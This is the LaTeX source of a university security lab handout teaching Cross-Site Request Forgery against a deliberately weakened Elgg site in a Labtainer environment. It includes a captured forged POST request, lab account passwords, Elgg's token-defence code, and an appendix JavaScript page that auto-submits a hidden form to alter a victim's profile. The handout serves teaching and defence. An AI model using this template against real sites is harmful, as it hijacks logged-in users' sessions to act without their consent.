\documentclass[11pt]{article}

\usepackage{times}
\usepackage{epsf}
\usepackage{epsfig}
\usepackage{amsmath, alltt, amssymb, xspace}
\usepackage{wrapfig}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{verbatim}
\usepackage{fancyvrb}

\usepackage{subfigure}
\usepackage{cite}
%\usepackage{cases}
%\usepackage{ltexpprt}
%\usepackage{verbatim}

%\topmargin      -0.70in  % distance to headers
%\headheight     0.2in   % height of header box
%\headsep        0.4in   % distance to top line
%\footskip       0.3in   % distance from bottom line

% Horizontal alignment
\topmargin      -0.50in  % distance to headers
\oddsidemargin  0.0in
\evensidemargin 0.0in
\textwidth      6.5in
\textheight     8.9in 


%\centerfigcaptionstrue

%\def\baselinestretch{0.95}


\newcommand\discuss[1]{\{\textbf{Discuss:} \textit{#1}\}}
%\newcommand\todo[1]{\vspace{0.1in}\{\textbf{Todo:} \textit{#1}\}\vspace{0.1in}}
\newtheorem{problem}{Problem}[section]
%\newtheorem{theorem}{Theorem}
%\newtheorem{fact}{Fact}
\newtheorem{define}{Definition}[section]
%\newtheorem{analysis}{Analysis}
\newcommand\vspacenoindent{\vspace{0.1in} \noindent}

%\newenvironment{proof}{\noindent {\bf Proof}.}{\hspace*{\fill}~\mbox{\rule[0pt]{1.3ex}{1.3ex}}}
%\newcommand\todo[1]{\vspace{0.1in}\{\textbf{Todo:} \textit{#1}\}\vspace{0.1in}}

%\newcommand\reducespace{\vspace{-0.1in}}
% reduce the space between lines
%\def\baselinestretch{0.95}

\newcommand{\fixmefn}[1]{ \footnote{\sf\ \ \fbox{FIXME} #1} }
\newcommand{\todo}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{TODO: #1}}
\vspace{0.1in}
}

\newcommand{\mybox}[1]{
\vspace{0.2in}
\noindent
\fbox{\parbox{6.5in}{#1}}
\vspace{0.1in}
}


\newcounter{question}
\setcounter{question}{1}

\newcommand{\myquestion} {{\vspace{0.1in} \noindent \bf Question \arabic{question}:} \addtocounter{question}{1} \,}

\newcommand{\myproblem} {{\noindent \bf Problem \arabic{question}:} \addtocounter{question}{1} \,}


\newcommand{\copyrightnoticeA}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ 2006 - 2014\ \ Wenliang Du, Syracuse University.\\ 
      The development of this document is partially funded by 
      the National Science Foundation's Course, Curriculum, and Laboratory 
      Improvement (CCLI) program under Award No. 0618680 and 0231122. 
      Permission is granted to copy, distribute and/or modify this document
      under the terms of the GNU Free Documentation License, Version 1.2
      or any later version published by the Free Software Foundation.
      A copy of the license can be found at http://www.gnu.org/licenses/fdl.html.}}
\vspace{0.1in}
}


\newcommand{\copyrightnotice}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ 2006 - 2014\ \ Wenliang Du, Syracuse University.\\
      The development of this document is/was funded by three grants from
      the US National Science Foundation: Awards No. 0231122 and 0618680 from
      TUES/CCLI and  Award No. 1017771 from Trustworthy Computing.
      This lab was imported into the Labtainer framework by the Naval Postgraduate 
      School, Center for Cybersecurity and Cyber Operations under National Science 
      Foundation Award No. 1438893.
      Permission is granted to copy, distribute and/or modify this document
      under the terms of the GNU Free Documentation License, Version 1.2
      or any later version published by the Free Software Foundation.
      A copy of the license can be found at http://www.gnu.org/licenses/fdl.html.}}
\vspace{0.1in}
}

\newcommand{\copyrightnoticeB}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ 2006 - 2014\ \ Wenliang Du, Syracuse University.\\
      The development of this document is/was funded by the following grants from
      the US National Science Foundation: No. 0231122, 0618680, and 1303306.
      Permission is granted to copy, distribute and/or modify this document
      under the terms of the GNU Free Documentation License, Version 1.2
      or any later version published by the Free Software Foundation.
      A copy of the license can be found at http://www.gnu.org/licenses/fdl.html.}}
\vspace{0.1in}
}


\newcommand{\nocopyrightnotice}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small  
      The development of this document is funded by 
      the National Science Foundation's Course, Curriculum, and Laboratory 
      Improvement (CCLI) program under Award No. 0618680 and 0231122. 
      Permission is granted to copy, distribute and/or modify this document.
      }}
\vspace{0.1in}
}

\newcommand{\idea}[1]{
\vspace{0.1in}
{\sf IDEA:\ \ \fbox{\parbox{5in}{#1}}}
\vspace{0.1in}
}

\newcommand{\questionblock}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{#1}}
\vspace{0.1in}
}


\newcommand{\minix}{{\tt Minix}\xspace}
\newcommand{\unix}{{\tt Unix}\xspace}
\newcommand{\linux}{{\tt Linux}\xspace}
\newcommand{\ubuntu}{{\tt Ubuntu}\xspace}
\newcommand{\selinux}{{\tt SELinux}\xspace}
\newcommand{\freebsd}{{\tt FreeBSD}\xspace}
\newcommand{\solaris}{{\tt Solaris}\xspace}
\newcommand{\windowsnt}{{\tt Windows NT}\xspace}
\newcommand{\setuid}{{\tt Set-UID}\xspace}
%\newcommand{\smx}{{\tt Smx}\xspace}
\newcommand{\smx}{{\tt Minix}\xspace}
\newcommand{\relay}{{\tt relay}\xspace}
\newcommand{\isys}{{\tt iSYS}\xspace}
\newcommand{\ilan}{{\tt iLAN}\xspace}
\newcommand{\iSYS}{{\tt iSYS}\xspace}
\newcommand{\iLAN}{{\tt iLAN}\xspace}
\newcommand{\iLANs}{{\tt iLAN}s\xspace}
\newcommand{\bochs}{{\tt Bochs}\xspace}

\newcommand\FF{{\mathcal{F}}}

\newcommand{\argmax}[1]{
\begin{minipage}[t]{1.25cm}\parskip-1ex\begin{center}
argmax
#1
\end{center}\end{minipage}
\;
}

\newcommand{\bm}{\boldmath}
\newcommand  {\bx}    {\mbox{\boldmath $x$}}
\newcommand  {\by}    {\mbox{\boldmath $y$}}
\newcommand  {\br}    {\mbox{\boldmath $r$}}


%\pagestyle{fancyplain}
%\lhead[\thepage]{\thesection}      % Note the different brackets!
%\rhead[\thesection]{SEED Laboratories}
%\lfoot[\fancyplain{}{}]{Syracuse University} 
%\cfoot[\fancyplain{}{}]{\thepage} 

\newcommand{\tstamp}{\today}   
%\lhead[\fancyplain{}{\thepage}]         {\fancyplain{}{\rightmark}}
%\chead[\fancyplain{}{}]                 {\fancyplain{}{}}
%\rhead[\fancyplain{}{\rightmark}]       {\fancyplain{}{\thepage}}
%\lfoot[\fancyplain{}{}]                 {\fancyplain{\tstamp}{\tstamp}}
%\cfoot[\fancyplain{\thepage}{}]         {\fancyplain{\thepage}{}}
%\rfoot[\fancyplain{\tstamp} {\tstamp}]  {\fancyplain{}{}}

\pagestyle{fancy}
%\lhead{\bfseries Computer Security Course Project}
\lhead{\bfseries SEED Labs}
\chead{}
\rhead{\small \thepage}
\lfoot{}
\cfoot{}
\rfoot{}

\usepackage{listings}
\usepackage{color}

\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}

\lstset{frame=tb,
  language=C,
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3
}



\begin{document}

\begin{center}
{\LARGE Cross-Site Request Forgery (CSRF) Attack Lab}
\vspace{0.1in}\\
{\Large (Web Application: {\tt Elgg})}
\end{center}

\copyrightnotice

\section{Overview}
The objective of this lab is to help students understand the Cross-Site Request
Forgery (CSRF or XSRF) attack. A CSRF attack involves a victim user, a
trusted site, and a malicious site. The victim user holds an active session
with a trusted site while visiting a malicious site. The
malicious site injects an HTTP request for the trusted site into the victim
user session, causing damages.

In this lab, students  will be attacking a social networking web
application using the CSRF attack.  The open-source social networking application called 
{\tt Elgg} has
countermeasures against CSRF, but we have turned them off for the
purpose of this lab.


\section{Lab Environment}

\newcommand{\urlorurls}{URLs }
\newcommand{\urlisorurlsare}{URLs are }

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%% Part I of the environment setup
%\section{Lab Environment}

This lab runs in the Labtainer framework,
available at http://my.nps.edu/web/c3o/labtainers.
That site includes links to a pre-built virtual machine
that has Labtainers installed, however Labtainers can
be run on any Linux host that supports Docker containers.

From your labtainer-student directory start the lab using:
\begin{verbatim}
    start.py xsite
\end{verbatim}
Links to this lab manual and to an empty lab report will be displayed.  If you create your lab report on a separate system,
be sure to copy it back to the specified location on your Linux system.

\subsection{Environment Configuration}
This lab includes three networked computers as shown in 
Figure~\ref{fig:topology}. 
The "vuln-site" runs the Apache web server and the {\tt Elgg} web
applications.  The "attacker" and "victim" computers each include
the Firefox browser.  Use the browser {\tt Web Developer} / {\tt Network}
tool (upper right menu), to 
inspect the HTTP requests and responses.  

\begin{figure}[htb]
\begin{center}

\includegraphics [width=0.8\textwidth,natwidth=621,natheight=403]{xsite.jpg}
\end{center}
\caption{Cross site scripting lab topology}
\label{fig:topology}
\end{figure}

\paragraph{Starting the Apache Server.}
The Apache web server will be running when the lab
commences.  If you need to restart the web server, use
the following command:
\begin{verbatim}
   % sudo systemctl restart httpd
\end{verbatim}

\paragraph{The {\tt Elgg} Web Application.}
We use an open-source web application called {\tt Elgg} in this lab.
{\tt Elgg} is a web-based social-networking application. 
It is already set up in on the vuln-site.
We have also created several user accounts on the {\tt Elgg} server and the credentials are given below.


\vspace{0.1in}
\begin{tabular}{|l|l|l|}
\hline
User 	& UserName 	& Password\\
\hline
Admin 	& admin 	& seedelgg \\
Alice 	& alice 	& seedalice \\
Boby 	& boby 		& seedboby \\
Charlie & charlie 	& seedcharlie \\
Samy 	& samy 		& seedsamy \\
\hline
\end{tabular}
\vspace{0.1in}


\paragraph{Configuring DNS.}
We have configured the following \urlorurls needed for this lab: 

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


\vspace{0.1in}
\begin{tabular}{|l|l|l|}
\hline
URL & Description & Directory\\
\hline
\url{http://www.csrflabattacker.com} & Attacker web site & /var/www/CSRF/Attacker/ \\
\url{http://www.csrflabelgg.com}  & Elgg web site & /var/www/CSRF/Elgg/ \\
\hline
\end{tabular}
\vspace{0.1in}


\subsection{Note for Instructors} 

This lab may be conducted in a
supervised lab environment. The instructor may provide the following
background information to students at the beginning of the lab session:
\begin{enumerate}
  \item Information on how to use Labtainers.
  \item How to use Firefox and its {\tt LiveHTTPHeaders} Extension.
  \item How to access the source code of the {\tt Elgg} web application. 
  \item Some very basic knowledge about JavaScript, HTTP, and PHP.
       
\end{enumerate}

\section{Background of CSRF Attacks}

A CSRF attack involves three actors: a trusted site ({\tt
Elgg}), a victim user of the trusted site, and a malicious site. 
The victim user simultaneously visits the
malicious site while holding an active session with the trusted site.
The attack involves the following sequence of steps:
\begin{enumerate}
  \item The victim user logs into the trusted site using his/her
    username and password, and thus creates a new session.

  \item The trusted site stores the session identifier for the session
    in a cookie in the victim user's web browser. 

  \item The victim user visits a malicious site.

  \item The malicious site's web page sends a
    request to the trusted site from the victim user's browser. This
    request is a cross-site request, because the site from where the request is
    initiated is different from the site where the request goes to.

  \item By design, web browsers automatically attach the session cookie to
    to the request, even if it is a cross-site request. 

  \item The trusted site, if vulnerable to CSRF, may process the malicious 
    request forged by the attacker web site, because it does not know
    whether the request is a forged cross-site request or a legitimate one.
\end{enumerate}


The malicious site can forge both HTTP GET and POST requests for the
trusted site. Some HTML tags such as \texttt{img}, \texttt{iframe},
\texttt{frame}, and \texttt{form} have no restrictions on the URL that can
be used in their attribute. HTML \texttt{img}, \texttt{iframe}, and
\texttt{frame} can be used for forging GET requests. The HTML
\texttt{form} tag can be used for forging POST requests. 
Forging GET requests is relatively easier, as it does not even need 
the help of JavaScript; forging POST requests does need JavaScript. 
Since {\tt Elgg} only uses POST, the tasks in this lab will 
only involve HTTP POST requests.

\section{Lab Tasks}

For the lab tasks, you will use two web sites.
The first web site is the vulnerable \texttt{Elgg}
site accessible at \url{www.csrflabelgg.com} and running on the ``vuln-site''
component. The second
web site is the attacker's malicious web site that is used for
attacking {\tt Elgg}. This web site is accessible via
\url{www.csrflabattacker.com} and runs on the ``attacker-site'' component.


\subsection{Task 1: CSRF Attack using GET Request}

In this task, we need two people in the {\tt Elgg} social network: Alice
and Boby. Boby wants to become a friend to Alice, but Alice refuses to add 
Boby to her {\tt Elgg} friend list. Boby decides to use the CSRF attack to
achieve his goal. He sends Alice an URL (via an email or a posting in {\tt
Elgg}); Alice, curious about it, clicks on the URL, which leads her to Boby's web site:    
{\tt www.csrflabattacker.com}. Pretend that you are Boby, describe how you
can construct the content of the web page, so as soon as Alice visits the
web page, Boby is added to the friend list of Alice (assuming Alice has an
active session with {\tt Elgg}).


To add a friend to the victim, we need to identify the Add Friend
HTTP request, which is a GET request. In this task, you are not allowed to
write JavaScript code to launch the CSRF attack. Your job is to make the
attack successful as soon as Alice visits the web page, without even making
any click on the page (hint: you can use the {\tt img} tag, which
automatically triggers an HTTP GET request).
 

\subsection{Task 2: CSRF Attack using POST Request}

In this lab, we need two people in the {\tt Elgg} social network: Alice and Boby. Alice is
one of the developers of the SEED project, and she asks Boby to 
endorse the SEED project by adding the message
{\tt "I support SEED project!"} in his {\tt Elgg} profile, but   
Boby, who does not like hands-on lab activties, refuses to do so.  
Alice is very determined, and she wants to try the CSRF attack on Boby. 
Now, suppose you are Alice, your job is to launch such an attack. 

One way to do the attack is to post a message to Boby's {\tt Elgg} account, hoping that 
Boby will click the URL inside the message. This URL will lead Boby to your
malicious web site {\tt www.csrflabattacker.com}, where you can launch the
CSRF attack. 

The objective of your attack is to modify the victim's profile. 
In particular, the attacker needs to forge a request 
to modify the profile information of the victim user of {\tt Elgg}. 
Allowing users to modify their profiles is a feature of 
{\tt Elgg}. If  users want to modify their profiles,
they go to the profile page of {\tt Elgg}, fill out 
a form, and then submit the form---sending a POST request---to 
the server-side script {\tt /profile/edit.php}, which 
processes the request and does the profile modification.


The server-side script {\tt edit.php} accepts both GET and POST requests,
so you can use the same trick as that in Task 1 to achieve the attack.
However, in this task, you are required to use the POST request. 
Namely, attackers (you) need to forge an HTTP POST request from the victim's
browser, when the victim is visiting their malicious site. 
Attackers need to know the structure of such a request.
You can observe the
structure of the request, i.e the parameters of the request, by making
some modifications to the profile and monitoring the request using
\texttt{LiveHTTPHeaders}. You may see something similar to
the following (unlike HTTP {\tt GET} requests, which append 
parameters to the URL strings, the parameters of HTTP {\tt POST} requests are 
included in the HTTP message body): 

{\footnotesize
\begin{Verbatim}[frame=single]
 http://www.csrflabelgg.com/action/profile/edit

POST /action/profile/edit HTTP/1.1
Host: www.csrflabelgg.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:23.0) Gecko/20100101 Firefox/23.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.csrflabelgg.com/profile/elgguser1/edit
Cookie: Elgg=p0dci8baqrl4i2ipv2mio3po05
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 642
__elgg_token=fc98784a9fbd02b68682bbb0e75b428b&__elgg_ts=1403464813
&name=elgguser1&description=%3Cp%3Iamelgguser1%3C%2Fp%3E
&accesslevel%5Bdescription%5D=2&briefdescription= Iamelgguser1
&accesslevel%5Bbriefdescription%5D=2&location=US
&accesslevel%5Blocation%5D=2&interests=Football&accesslevel%5Binterests%5D=2
&skills=AndroidAppDev&accesslevel%5Bskills%5D=2
&contactemail=elgguser%40xxx.edu&accesslevel%5Bcontactemail%5D=2
&phone=3008001234&accesslevel%5Bphone%5D=2
&mobile=3008001234&accesslevel%5Bmobile%5D=2
&website=http%3A%2F%2Fwww.elgguser1.com&accesslevel%5Bwebsite%5D=2
&twitter=hacker123&accesslevel%5Btwitter%5D=2&guid=39
\end{Verbatim}
}

After understanding the structure of the request, you need to 
be able to generate the request from your attacking web page
using JavaScript code. 
To help you write such a JavaScript program,  we provide the
sample code in Figure~\ref{fig:jsscript} (in the appendix). 
You can use this sample code to construct your malicious web site
for the CSRF attacks.


Note: Please check the {\tt single quote} characters in the program. When
copying and pasting the JavaScript program in Figure~\ref{fig:jsscript}, single quotes are encoded
into a different symbol. Replace the symbol with the correct single quote.


\paragraph{Questions.}
In addition to describing your attack in full details, you also need to
answer the following questions in your report:
\begin{itemize}

   \item {\em Question 1}: The forged HTTP request needs Boby's user
   id (guid) to work properly. If Alice targets Boby specifically, before
   the attack, she can find ways to get Boby's user id. Alice does not know 
   Boby's {\tt Elgg} password, so she cannot log into Boby's account to get
   the information. Please describe how Alice can find out Boby's user id. 

   
   \item {\em Question 2:} If Alice would like to launch the attack to
   anybody who visits her malicious web page. In this case, she does not
   know who is visiting the web page before hand. Can she still launch the CSRF attack
   to modify the victim's {\tt Elgg} profile? Please explain.
   
\end{itemize}



\subsection{Task 3: Implementing a countermeasure for {\tt Elgg}} 


{\tt Elgg} does have a built-in countermeasures to 
defend against the CSRF attack. 
We have commented out the countermeasures to make the attack work. 
CSRF is not difficult to defend against, and there are several common approaches:

\begin{itemize}
   \item {\em Secret-token approach}: Web applications can embed a secret token
   in their pages, and all requests coming from these pages will carry this 
   token. Because cross-site requests cannot obtain this token, their 
   forged requests will be easily identified by the server.

   \item {\em Referrer header approach}: Web applications can also verify the origin page 
   of the request using the \emph{referrer} header. However, due to privacy
   concerns, this header information may have already been filtered out 
   at the client side.
\end{itemize}


The web application {\tt Elgg} uses secret-token approach. 
It embeds two parameters {\tt\_\_elgg\_ts} and {\tt\_\_elgg\_token} in the request as a countermeasure to CSRF attack. 
The two parameters are added to the HTTP message body for the POST requests and to the URL string for the HTTP GET requests.

\paragraph{{\tt Elgg} secret-token and timestamp in the body of the request:}


{\tt Elgg} adds security token and timestamp to all the user actions to be performed.
The following HTML code is present in all the forms where user action is required. 
This code adds two new hidden parameters {\tt\_\_elgg\_ts} and {\tt\_\_elgg\_token} to the POST request:

\begin{Verbatim}[frame=single]
<input type = "hidden" name = "__elgg_ts" value = "" />
<input type = "hidden" name = "__elgg_token" value = "" />
\end{Verbatim}

The {\tt\_\_elgg\_ts} and {\tt\_\_elgg\_token} are generated by the 
\url{views/default/input/securitytoken.php} 
module and added to the web page. 
The code snippet below shows how it is dynamically added to the web page.
{\footnotesize
\begin{Verbatim}[frame=single]
$ts = time();
$token = generate_action_token($ts);

echo elgg_view('input/hidden', array('name' => '__elgg_token', 'value' => $token));
echo elgg_view('input/hidden', array('name' => '__elgg_ts', 'value' => $ts));
\end{Verbatim}
}

{\tt Elgg} also adds the security tokens and timestamp to the JavaScript which can be accessed by 

	\begin{verbatim}
	elgg.security.token.__elgg_ts;
	elgg.security.token.__elgg_token;
	\end{verbatim}

{\tt Elgg} security token is a hash value (md5 message digest) of the site secret value (retrieved from database),
timestamp, user sessionID and random generated session string. There by defending against the CSRF attack.  
The code below shows the secret token generation in {\tt Elgg}.


{\footnotesize
\begin{Verbatim}[frame=single]
function generate_action_token($timestamp) 
{
	$site_secret = get_site_secret();
	$session_id = session_id();
	// Session token
	$st = $_SESSION['__elgg_session'];

	if (($site_secret) && ($session_id)) 
	{
		return md5($site_secret . $timestamp . $session_id . $st);
	}

	return FALSE;
}
\end{Verbatim}
}


The PHP function {\tt session\_id()} is used to get or set the session id for the current session. 
The below code snippet shows random generated string for a given session {\tt\_\_elgg\_session} apart from public user Session ID.

{\footnotesize
\begin{Verbatim}[frame=single]
   .........
   ........
  // Generate a simple token (private from potentially public session id)
  if (!isset($_SESSION['__elgg_session'])) {
  $_SESSION['__elgg_session'] = ElggCrypto::getRandomString(32,ElggCrypto::CHARS_HEX);
	........
	........

\end{Verbatim}
}

\paragraph{{\tt Elgg} secret-token validation:}

 
The elgg web application validates the generated token and timestamp to defend against the CSRF attack.
Every user action calls {\tt validate\_action\_token} function and this function validates the tokens. 
If tokens are not present or invalid, the action will be denied and the user will be redirected.
 
 
The below code snippet shows the function {\tt validate\_action\_token}.

{\footnotesize
\begin{Verbatim}[frame=single]
function validate_action_token($visibleerrors = TRUE, $token = NULL, $ts = NULL) 
{

  if (!$token) {	$token = get_input('__elgg_token');	}
  if (!$ts) {$ts = get_input('__elgg_ts');	}
  $session_id = session_id();
  if (($token) && ($ts) && ($session_id)) {
    // generate token, check with input and forward if invalid
    $required_token = generate_action_token($ts);

    // Validate token
    if ($token == $required_token) {
			
      if (_elgg_validate_token_timestamp($ts)) {
        // We have already got this far, so unless anything
        // else says something to the contrary we assume we're ok
        $returnval = true;
          ........
          ........
        }
      Else {     
	    ........
	    ........
            register_error(elgg_echo('actiongatekeeper:tokeninvalid'));
            ........
            ........
      }
      ........
      ........
}
\end{Verbatim}
}

\paragraph{Turn on countermeasure:}


To turn on the countermeasure, please go to the directory
\url{elgg/engine/lib} and 
find the function {\tt action\_gatekeeper} in the {\tt actions.php} file. 
In function {\tt action\_gatekeeper} please comment out the 
{\tt "return true;"} statement as specified in the code comments.

{\footnotesize
\begin{Verbatim}[frame=single]
function action_gatekeeper($action) {

	//SEED:Modified to enable CSRF. 
	//Comment the below return true statement to enable countermeasure
	return true;

	 ........
	 ........
}
\end{Verbatim}
}

\paragraph{Task:}
After turning on the countermeasure above, try the CSRF attack again, 
and describe your observation. Please point out the secret tokens in the 
HTTP request captured using {\tt LiveHTTPHeaders}. Please explain why
the attacker cannot send these secret tokens in the CSRF attack; what
prevents them from finding out the secret tokens from the web page?   


\section{Submission}
After finishing the lab, go to the terminal on your Linux system that was used to start the lab and type:
./stop.py xsite
When you stop the lab, the system will display a path to the zipped lab results on your Linux system.  Provide that file to
your instructor, e.g., via the Sakai site.
You need to submit a detailed lab report to describe what you have
done and what you have observed. Please provide details using
{\tt LiveHTTPHeaders},  and/or screenshots.
You also need to provide explanation
to the observations that are interesting or surprising.


\begin{thebibliography}{10}


\bibitem{elgg}
{\tt Elgg} documentation:
\newblock \url{http://docs.elgg.org/wiki/Main_Page}.

\bibitem{JSstring}
JavaScript String Operations.
\newblock \url{http://www.hunlock.com/blogs/The_Complete_Javascript_Strings_Reference}.	 

\bibitem{sessionsecurityelgg}
Session Security {\tt Elgg}.
\newblock \url{http://docs.elgg.org/wiki/Session_security}.

\bibitem{formsactionselgg}
Forms + Actions {\tt Elgg}
\newblock \url{http://learn.elgg.org/en/latest/guides/actions.html}.

\bibitem{phpfunctionsession}
PHP:Session\_id - Manual:
\newblock \url{http://www.php.net//manual/en/function.session-id.php}.


\end{thebibliography}


\appendix

\begin{figure}
{\footnotesize
\begin{Verbatim}[frame=single]
<html><body><h1>
  This page forges an HTTP POST request.
  </h1>
  <script type="text/javascript">

 function post(url,fields)
 {
    //create a <form> element.
    var p = document.createElement("form");
	 
    //construct the form
    p.action = url;
    p.innerHTML = fields;
    p.target = "_self";
    p.method = "post";
	 
    //append the form to the current page.
    document.body.appendChild(p);
	 
   //submit the form
    p.submit();
 }

 function csrf_hack()
 {				
    var fields;

    // The following are form entries that need to be filled out
    // by attackers. The entries are made hidden, so the victim
    // won't be able to see them.
    fields += "<input type='hidden' name='name' value='elgguser1'>";
    fields += "<input type='hidden' name='description' value=''>";
    fields += "<input type='hidden' name='accesslevel[description]' value='2'>";
    fields += "<input type='hidden' name='briefdescription' value=''>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";
    fields += "<input type='hidden' name='location' value=''>";
    fields += "<input type='hidden' name='accesslevel[location]' value='2'>";				
    fields += "<input type='hidden' name='guid' value='39'>";
    var url = "http://www.example.com";

    post(url,fields);
 }
	
 // invoke csrf_hack() after the page is loaded.
 window.onload = function() { csrf_hack();}
  </script>
 </body></html>
\end{Verbatim}
}
\caption{Sample JavaScript program}
\label{fig:jsscript}
\end{figure}


\end{document}



